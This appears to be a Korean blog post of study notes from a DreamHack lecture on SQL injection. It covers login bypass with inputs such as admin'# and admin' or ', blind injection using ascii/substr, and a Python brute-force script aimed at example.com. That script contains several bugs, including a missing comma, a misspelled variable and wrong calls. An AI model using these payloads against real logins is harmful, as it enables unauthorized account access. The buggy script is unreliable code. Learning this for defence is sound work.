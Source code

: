 ```yaml
---
layout: single
title:  "ServerSide : SQL Injection"
categories: DreamHack
tag: [DreamHack, WebHacking,SQL,SQL_Injection]
toc: true
author_profile: false
---
```


# ServerSide : SQL Injection

[SQL Injection](https://dreamhack.io/lecture/courses/191)
 
DMBS에서 관리하는 데이터베이스에는 민감한 정보가 포함될 수 있다. 공격자는 데이터베이스 파일 탈취 SQL Injection 공격 등으로 해당 정보를 확보하고 악용할 수 있다. 

오늘은 DBMS에서 사용하는 쿼리를 임의로 조작해 데이터베이스의 정보를 획득하는 SQL Injection에대해 배운다.

그 전에 Injection은 주입이라는 의미를 가진 단어로 인젝션 공격은 이용자의 입력값이 처리과정에서 구조나 문법적인 데이터로 해석되어 발생하는 취약점이다.

## SQL Injection

SQL 은 DBMS에 데이터를 질의하는 언어이다. 웹 서비스에는 이용자의 입력을 SQL 구문에 포함해 요펑하는 경우가 있다(ex: 로그인, 게시글). 

아래 코드는 로그인 할 때 애플리케이션이 DBMS에 질의하는 쿼리이다.

```sql
SELECT * FROM accounts WHERE user_id='dreamhack' and user_pw='password'
```

쿼리문을 살펴보면 이용자가 입력한 "dreamhack"과 "password"문자열을 SQL 구문에 포함이 된다. 이렇게 문자열을 삽입하는 행위를 SQL Injection이라고 한다. SQL Injection 이 발생하면 조작된 쿼리로 인증을 우회하거나, 데이터베이스의 정보를 유출할 수 있다.


아래 쿼리문은 SQL Injection으로 조작한 쿼리문이다.

```SQL
SELECT * FROM accounts WHERE user_id='admin' 
```

쿼리문을 보면 user_pw의 조건문이 사라진걸 알 수 있다.  조작한 쿼리문을 통해 질의하면 DBMS는 ID 가 admin인 계정의 비밀번호를 비교하지않고 해당 계정의 정보를 들고 온다.

주석이나 항상 참이되는 값을 이용해서 쿼리문을 조작 할 수 있다.

----
uid 와 upw를 입력받는 모듈이 있고, 코드가 아래와 같을 때

```SQL
Select uid from user_table where uid='' and upw=''
```

문자열을 구별하기 위해 ' 문자를 사용하고 있기 때문에 uid 입력값에 admin'을 입력하면 뒤에 문장들은

```SQL
Select uid from user_table where uid='admin'' and upw=''
```
처럼 바뀐다.

뒤에 주석 #을 추가해 뒷 내용을 주석화 할 수 있다.

혹은 admin' or ' 을 입력해 뒷내용이 항상 참으로 만들 수 있다.

### Blind SQL Injection

Blind SQL Injectio이라는 다른 공격기법으로 데이터베이스의 내용을 알 수 있다.

해당 공격 기법은 스무고개 게임과 비슷한 방법으로 질문을 해서 답변을 얻어 알아내는 방법이다.

ascii 값과 substr 함수로 Blind SQL Injection 을 할 수 있다.

----
substr 함수
```python
substr(string , position, length)
substr('ABCD',1,1)='A'
substr('ABCD',2,2)='BC'
```

----

공격 코드

```SQL
#  114='r',115='s'

SELECT * FROM user_table WHERE uid = 'adim' and ascii(substr(upw,1,1)) = 114 --' and upw=' '
#False


```

Blind SQL Injection 공격은 하나하나 값을 비교해야되기 때문에 비교적 오랜 시간이 걸린다는 단점이 있다. 이를 해결하기 위해 Python 코드로 자동화해 얻을 수 있다.

```python
import requests
import string

url = 'http://example.com/login'

params = {
    'uid':''
    'upw':''
}

tc = string.ascii_letters + string.digits + string.punctuation

query = '''
admin' and ascii(substr(upw,{idx},1))={val}--
'''

pasword = ''

for idx in range(0,20):
    for ch in tc:
        params['uid'] = query.format(idx=idx,val=ord(ch)).strip("\n")

        c = requests.get(url,params=params)

        print(c.requests.url)
        if c.text.find("Login success") != -1:
            password += chr(ch)
            break

print(f"Password is {password}")
```

